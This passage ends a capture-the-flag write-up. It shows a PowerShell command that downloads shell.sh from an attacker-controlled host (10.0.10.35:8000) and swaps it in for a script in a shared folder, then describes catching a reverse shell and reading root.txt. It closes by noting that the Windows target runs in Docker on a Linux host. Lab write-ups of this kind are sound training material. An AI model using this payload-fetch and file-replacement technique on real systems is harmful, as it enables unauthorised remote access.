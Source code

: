 Then, on the target machine, replace the file in `Z:/`:
```powershell
Invoke-WebRequest -Uri http://10.0.10.35:8000/shell.sh -OutFile healthy.sh
```

Set up a listener and wait for a connection.

Finally, voilà! We successfully obtain a shell and retrieve `root.txt`!
![image](./images/machine-exploited.png)
# Conclusion
By exploring further, we can find a `docker-compose.yml` file, which reveals that **Windows** is running as a **Docker container** on a **Linux** host. The shared folder we accessed earlier is mounted between the Linux host and the Docker container.  